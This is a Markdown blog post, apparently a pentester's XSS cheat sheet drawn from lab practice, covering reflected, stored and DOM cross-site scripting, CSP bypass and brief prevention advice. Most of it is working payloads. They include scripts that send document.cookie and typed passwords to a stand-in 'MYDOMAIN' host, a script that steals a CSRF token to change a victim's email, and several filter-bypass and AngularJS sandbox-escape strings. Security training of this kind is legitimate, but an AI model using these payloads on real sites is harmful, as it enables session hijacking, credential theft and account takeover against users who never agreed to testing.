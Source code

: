 ```yaml
---
title: "XSS attack"
subtitle: ""
draft: false
author: "Hato0"
description: "XSS cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>

tags: ["web", "penetest", "xss"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. 

This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

## Basics


- Exploiting cross-site scripting to steal cookies
	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. 
    
    In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
        {{< highlight javascript "lineNos=false" >}}<script> 
            fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  
        </script>
        {{< /highlight >}}


- Exploiting cross-site scripting to capture passwords
	
	This technique can be use because of stupid password managers and auto-fill option. Basicly the only thing you have to do is to inject an option in the input label to read data when they are enter. Here is an example : 
	
    {{< highlight html "lineNos=false" >}}
    <input name=username id=username>  
    <input type=password name=password onchange="
    if(this.value.length)fetch('https://MYDOMAIN',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">
    {{< /highlight >}}


- Exploiting XSS to perform CSRF

	XSS can also be used to perform CSRF (more details in the next section). Here is an example payload working with token protection enable: 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	var req = new XMLHttpRequest();  
	req.onload = handleResponse;  
	req.open('get','/my-account',true);  
	req.send();  
	function handleResponse() {  
	 var token = this.responseText.match(/name="csrf" value="(\\w+)"/)\[1\];  
	 var changeReq = new XMLHttpRequest();  
	 changeReq.open('post', '/my-account/change-email', true);  
	 changeReq.send('csrf='+token+'&email=test@test.com')  
	};  
	</script>
	{{< /highlight >}}


## Reflected XSS 

Reflected XSS is the simplest variety of cross-site scripting. The application receive data in an HTTP request and includes that data within the immediate response in an unsafe way. Nothing is stored in the webapp and the trigger only works when the user click on the link or whatever with this particular payload include. Here are some examples : 

- HTML context with nothing encoded

	{{< highlight javascript "lineNos=false" >}}
	<script>alert(1)</script>
	{{< /highlight >}}
 
 
- HTML context with most tags and attributes blocked

	{{< highlight html "lineNos=false" >}}
	<iframe src="https://WEBSITE/?search="><body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
	{{< /highlight >}}


- HTML context with all tags blocked except custom ones

	{{< highlight javascript "lineNos=false" >}}
	<script>  
	location = 'https://WEBSITE/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';  
	</script>
	{{< /highlight >}}


- Event handlers and href attributes blocked

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
	{{< /highlight >}}

- Some SVG markup allowed

	{{< highlight javascript "lineNos=false" >}}
	https://WEBSITE/?search="><svg><animatetransform onbegin=alert(1)>
	{{< /highlight >}}


- Reflected XSS with AngularJS sandbox escape without strings

	{{< highlight javascript "lineNos=false" >}}
	https://your-lab-id.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d\[\].join;\[1\]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
	{{< /highlight >}}
	
	
- Reflected XSS with AngularJS sandbox escape and CSP

	{{< highlight html "lineNos=false" >}}
	<script>  
	location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';  
	</script>
	{{< /highlight >}}
	

## Stored XSS 
Stored XSS is an injection in the actual page by any way (message, template injection, input, ...). Here are some examples: 

- Stored XSS into anchor href attribute with double quotes HTML-encoded

	{{< highlight javascript "lineNos=false" >}}
	javascript:alert('XSS')
	{{< /highlight >}}
	 
	 
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

	{{< highlight javascript "lineNos=false" >}}
	&apos;-alert(1)-&apos;
	{{< /highlight >}}
	

## DOM XSS 

DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

As the vulnaribility is app specific, there will be no example and you will have to use your brain. 


## Escape CSP

CSP or 'Content Security Policy ' is a protection to XSS, clickjacking, code injection and more. CSP can be found on the server answer. You can use a [checker](https://csp-evaluator.withgoogle.com/) to dig in what you have in front of you. As the topic is large again here is a [link](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to understand what the checker gave you 


## How to prevent them 

-   **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input.
-   **Encode data on output.** At the point where user-controllable data is output in HTTP responses, encode the output to prevent it from being interpreted as active content. Depending on the output context, this might require applying combinations of HTML, URL, JavaScript, and CSS encoding.
-   **Use appropriate response headers.** To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
-   **Content Security Policy.** As a last line of defense, you can use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur.